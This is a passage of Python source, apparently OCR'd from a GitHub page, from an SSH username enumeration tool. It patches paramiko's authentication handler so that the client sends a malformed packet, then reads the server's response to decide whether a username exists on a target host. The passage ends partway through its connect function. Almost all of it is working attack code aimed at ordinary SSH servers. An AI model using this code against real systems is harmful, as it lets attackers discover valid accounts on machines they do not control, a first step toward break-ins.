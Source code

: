         auth_handler = paramiko.auth_handler.AuthHandler
        old_msg_service_accept = auth_handler._client_handler_table[paramiko.common.MSG_SERVICE_ACCEPT]

        def patched_msg_service_accept(*args, **kwargs):
            """ Patches paramiko.message.Message.add_boolean to produce a malformed packet. """
            old_add_boolean, paramiko.message.Message.add_boolean = paramiko.message.Message.add_boolean, patched_add_boolean
            retval = old_msg_service_accept(*args, **kwargs)
            paramiko.message.Message.add_boolean = old_add_boolean
            return retval

        def patched_userauth_failure(*args, **kwargs):
            """ Called during authentication when a username is not found. """
            raise InvalidUsername(*args, **kwargs)

        auth_handler._client_handler_table.update({
            paramiko.common.MSG_SERVICE_ACCEPT: patched_msg_service_accept,
            paramiko.common.MSG_USERAUTH_FAILURE: patched_userauth_failure
        })


    def create_socket(hostname: str, port: int) -> Union[socket.socket, None]:
        """ Small helper to stay DRY.
        Returns:
            socket.socket or None
        """
        # spoiler alert, I don't care about the -6 flag, it's really
        # just to advertise in the help that the program can handle ipv6
        try:
            return socket.create_connection((hostname, port))
        except socket.error as e:
            print(f'socket error: {e}', file=sys.stdout)


    def connect(username: str, hostname: str, port: int, verbose: bool = False, **kwargs) -> None:
        """ Connect and attempt keybased auth, result interpreted to determine valid username.
        Args:
            username:   username to check against the ssh service
            hostname:   hostname/IP of target
            port:       port where ssh is listening
            key:        key used for auth
            verbose:    bool value; determines whether to print 'not found' lines or not
        Returns:
            None
        """
        sock = create_socket(hostname, port)
        if not sock:
            return
